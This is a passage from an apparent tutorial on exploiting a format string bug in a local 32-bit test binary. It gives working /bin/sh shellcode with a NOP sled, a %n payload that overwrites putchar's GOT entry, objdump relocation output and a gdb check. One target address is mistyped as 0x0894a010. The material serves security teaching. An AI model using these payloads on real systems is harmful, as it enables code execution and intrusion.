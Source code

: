 ```
```
You can now see that we are fetching our 4 A's of the stack (we have to escape
the $ as it is a special shell character). With the help of the %n specifier we
are going to write the address of some shellcode that we'll place on the stack
over the address of a function in the Global Offset Table (GOT for short) so to
sum up those 4 A's need to become the address of an entry in the GOT (and needs
to be called after the printf function call) and we need to write enough data so
that the %n value is equal to the address of our shell code.

## Shellcode 
I am not going to explain how I crafted this shellcode (I'll write another post
on how I did that). Run the below command in order to set up an environment
variable with our shell code in
```
  $ export EGG=$(python -c 'print "\x90" * 64 +
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```
Here I'm using pythons ability to print hex chars to save the shellcode into the
EGG environment variable (see shellstorm.org for more examples of shellcode)

## Data Gathering
Now in order to exploit this vulnerability we need to gather a few pieces of
data

* Address of function in GOT to overwrite.

```
  $ objdump -R fmt

  fmt:     file format elf32-i386

  DYNAMIC RELOCATION RECORDS
  OFFSET   TYPE              VALUE 
  08049ff0 R_386_GLOB_DAT    __gmon_start__
  0804a000 R_386_JUMP_SLOT   printf
  0804a004 R_386_JUMP_SLOT   strcpy
  0804a008 R_386_JUMP_SLOT   __gmon_start__
  0804a00c R_386_JUMP_SLOT   __libc_start_main
  0804a010 R_386_JUMP_SLOT   putchar
```
we'll use the address of putchar as this gets called immediately after the
printf function so the address we are writing to is 0x0894a010 (this 32 bit / 4
byte address will become our A's in the payload string this means our format
string  will become $(python -c 'print "\x10\xa0\x04\x08"').%4\$n Which
translated means write the number 5 to the address 0x0804a010. Why the number 5?
Well we have written 4 bytes for the address (where the A's used to be) plus 1
period we used as a spacer. You may be thinking wait why is the address
backwards? Well this is because this machine is little endian (go and google!!).
Lets verify this in gdb!!

```
  $ gdb fmt
  gdb-peda$ run $(python -c 'print "\x10\xa0\x04\x08"').%4\$n
  [----------------------------------registers-----------------------------------]
  EAX: 0x5 
  EBX: 0xb7fd1ff4 --> 0x1a0d7c 
  ECX: 0x0 
  EDX: 0x0 
  ESI: 0x0 
  EDI: 0x0 
  EBP: 0xbffff698 --> 0x0 
  ESP: 0xbffff5fc --> 0x8048480 (<main+60>:   leave)
  EIP: 0x5
  EFLAGS: 0x210282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```